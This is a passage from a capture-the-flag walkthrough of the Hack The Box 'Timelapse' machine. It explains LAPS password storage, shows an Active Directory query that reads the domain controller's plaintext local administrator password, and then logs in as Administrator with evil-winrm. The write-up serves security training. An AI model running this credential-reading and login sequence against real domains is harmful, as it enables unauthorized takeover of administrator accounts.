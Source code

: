 ```bash
The command completed successfully.
```

The user `svc_deploy` belongs to `LAPS_Readers` group.

For the background,
With LAPS, the DC manages the local administrator passwords for computers on the domain. It is common to create a group of users and give them permissions to read these passwords, allowing the trusted administrators access to all the local admin passwords.

In the domain's computer objects, the implementation of LAPS results in the addition of two new attributes: **ms-mcs-AdmPwd** and **ms-mcs-AdmPwdExpirationTime**. These attributes store the **plain-text administrator password** and **its expiration time**, respectively.

```bash
*Evil-WinRM* PS C:\Users\svc_deploy\Documents> Get-ADComputer DC01 -property 'ms-mcs-admpwd'


DistinguishedName : CN=DC01,OU=Domain Controllers,DC=timelapse,DC=htb
DNSHostName       : dc01.timelapse.htb
Enabled           : True
ms-mcs-admpwd     : ]MTq4Y2L0t[htP@[;+5cSQO7
Name              : DC01
ObjectClass       : computer
ObjectGUID        : 6e10b102-6936-41aa-bb98-bed624c9b98f
SamAccountName    : DC01$
SID               : S-1-5-21-671920749-559770252-3318990721-1000
UserPrincipalName :
```

Based on the result, `Administrator`'s password is `]MTq4Y2L0t[htP@[;+5cSQO7`.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ evil-winrm -i timelapse.htb -u 'Administrator' -p ']MTq4Y2L0t[htP@[;+5cSQO7' -S
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Warning: SSL enabled
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
timelapse\administrator
```

I got a root shell!